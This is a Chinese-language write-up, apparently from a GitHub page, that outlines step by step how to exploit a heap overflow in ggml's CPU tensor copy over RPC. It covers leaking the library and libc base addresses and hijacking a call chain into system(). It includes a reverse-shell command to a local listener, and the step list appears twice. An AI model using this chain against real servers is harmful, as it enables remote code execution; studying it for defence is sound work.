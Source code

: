 
## 利用步骤

1. **堆布局操作**：  
    分配`src`和`dst`缓冲区。计算精确的`ne[]`/`nb[]`值（如`ne = [96, 96, 96, 63]`，`nb = [10, 1, 1, 1]`产生282字节溢出），使`dst`溢出到相邻的`buffer`结构。
    
2. **泄露libggml基址**：
    
    - 部分覆写`buffer->iface.get_base`指向`ggml_backend_buffer_get_type`函数。
    - 通过RPC调用`buffer_get_base`泄露`buffer->buft`，从而获取`libggml-base.so`的基址。
3. **泄露libc基址**：
    
    - 构造伪造的`buffer`结构，设置`context = memcpy@GOT - 0x30`。
    - 使用`get_tensor`读取`memcpy@GOT`，泄露`libc.so.6`基址。
4. **通过调用链劫持实现RCE**：
    
    - 覆写`buffer->iface.get_base`为`ggml_backend_get_alignment`。
    - 精心构造`ggml_backend`结构：
        - `backend->device->iface.get_buffer_type = system`
        - `backend->device->context = "sh -i >& /dev/tcp/127.0.0.1/1337 0>&1"`
    - 触发`get_base`执行命令，获得反向shell。


1. **漏洞点识别与分析**：  
    在`ggml_backend_cpu_buffer_cpy_tensor`函数中发现堆溢出漏洞，当源张量与目标张量大小不匹配时，可通过操纵张量维度数组`ne[]`和步长数组`nb[]`触发不受控制的`memcpy`操作。
    
2. **防护措施分析与绕过策略**：
    
    - **防护点1（溢出限制）**：`deserialize_tensor()`和`ggml_backend_tensor_set`中的边界检查阻止了直接伪造任意指针。
    - **防护点2（部分写入限制）**：通过`buffer->iface`方法重定向控制流需要先泄露基址。
    - **解决方案**：设置`buffer->iface.free_buffer = NULL`安全覆盖其他`iface`成员。
3. **堆布局操作与溢出触发**：  
    分配`src`和`dst`缓冲区。计算精确的`ne[]`/`nb[]`值（如`ne = [96, 96, 96, 63]`，`nb = [10, 1, 1, 1]`产生282字节溢出），使`dst`溢出到相邻的`buffer`结构。
    
4. **libggml基址泄露**：
    
    - 部分覆写`buffer->iface.get_base`指向`ggml_backend_buffer_get_type`函数。
    - 通过RPC调用`buffer_get_base`泄露`buffer->buft`，从而获取`libggml-base.so`的基址。
5. **libc基址泄露**：
    
    - 构造伪造的`buffer`结构，设置`context = memcpy@GOT - 0x30`。
    - 使用`get_tensor`读取`memcpy@GOT`，泄露`libc.so.6`基址。
6. **面向结构的编程构造**：  
    将`buffer`结构重新解释为`ggml_backend`对象，链接嵌套调用（`ggml_backend_get_alignment` → `ggml_backend_get_default_buffer_type`）以执行带受控参数的`system()`函数。
    
7. **RCE实现与命令执行**：
    
    - 覆写`buffer->iface.get_base`为`ggml_backend_get_alignment`。
    - 精心构造`ggml_backend`结构：
        - `backend->device->iface.get_buffer_type = system`
        - `backend->device->context = "sh -i >& /dev/tcp/127.0.0.1/1337 0>&1"`
    - 触发`get_base`执行命令，获得反向shell。

